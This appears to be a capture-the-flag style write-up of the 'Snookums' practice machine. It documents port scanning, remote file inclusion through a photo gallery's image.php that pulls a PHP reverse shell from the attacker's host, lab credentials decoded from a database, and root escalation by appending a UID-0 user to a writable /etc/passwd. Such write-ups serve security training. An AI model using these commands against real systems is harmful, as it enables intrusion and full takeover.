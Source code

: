 ```yaml
---
description: Pg Practice Snookums writeup
---
```


# Snookums

## Nmap

```
sudo nmap 192.168.230.58 -p- -sS -sV

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.2
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp  open  mysql       MySQL (unauthorized)
33060/tcp open  mysqlx?
Service Info: Host: SNOOKUMS; OS: Unix
```

Port 80 directs us to index.php for Simple PHP Photo Gallery. As we can see at the footer of the page we are on v08.

![](<../../../.gitbook/assets/image (1041).png>)

Running `dirsearch.py` against the target website produces the following found directories:

```
python3 dirsearch.py -u http://192.168.230.58 -w /usr/share/seclists/Discovery/Web-Content/big.txt -r -t 60 --full-url
```

![](<../../../.gitbook/assets/image (1042).png>)

Of the directories none are of particular interest so far after manual inspection. Searching on Google for exploits we do have a public exploit for RFI on v0.7.

{% embed url="https://www.exploit-db.com/exploits/48424" %}

As per the exploit page the PoC for this is:

```
 site.com/image.php?img= [ PAYLOAD ]
```

Browsing to image.php shows the following:

![](<../../../.gitbook/assets/image (1043).png>)

From here we can test RFI by starting a `Python SimpleHTTPServer` on our attacking machine and try to browse to a test.txt file which contains the contents 'hello'.

```
http://192.168.230.58/image.php?img=http://192.168.49.230/test.txt
```

![](<../../../.gitbook/assets/image (1044).png>)

As this has worked for us and we know the target is running PHP we can attempt a PHP reverse shell. I set a PHP Reverse shell to listen in on port 21 then browsed to it at:

```
http://192.168.230.58/image.php?img=http://192.168.49.230/phpshell.php
```

Which resulted in a shell.

![](<../../../.gitbook/assets/image (1045).png>)

Browsing /var/www/html shows a db.php file. Reading the contents of this provides us with login information for MySQL.

![](<../../../.gitbook/assets/image (1046).png>)

Once logged into MySQL locally we can see a database called 'SimplePHPGal'. Selecting the database and showing the tables reveals the 'users' tables. Selecting all columns from this provides us with some usernames and base64 values.

![](<../../../.gitbook/assets/image (1047).png>)

These values need to be decoded twice to view the plaintext value:

![](<../../../.gitbook/assets/image (1048).png>)

| Username | Password                |
| -------- | ----------------------- |
| josh     | MobilizeHissSeedtime747 |
| michael  | HockSydneyCertify123    |
| serena   | OverallCrestLean000     |

Viewing the contents of /etc/passwd shows two outstanding users, michael and GitRekt.

![](<../../../.gitbook/assets/image (1049).png>)

We can then attempt to `SSH` in as michael with the potential credentials.

![](<../../../.gitbook/assets/image (1051) (1).png>)

Linpeas reports the /etc/passwd file is writeable by us.

![](<../../../.gitbook/assets/image (1053).png>)

Knowing this we can setup a new root user to be created.

Generate password on attacking machine:

```
openssl passwd -1 -salt password password 
```

Echo the password and new user to the end of /etc/passwd on the target machine.

```
echo 'owned:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:owned:/root:/bin/bash' >> /etc/passwd
```

`su` to new user:

![](<../../../.gitbook/assets/image (1052).png>)
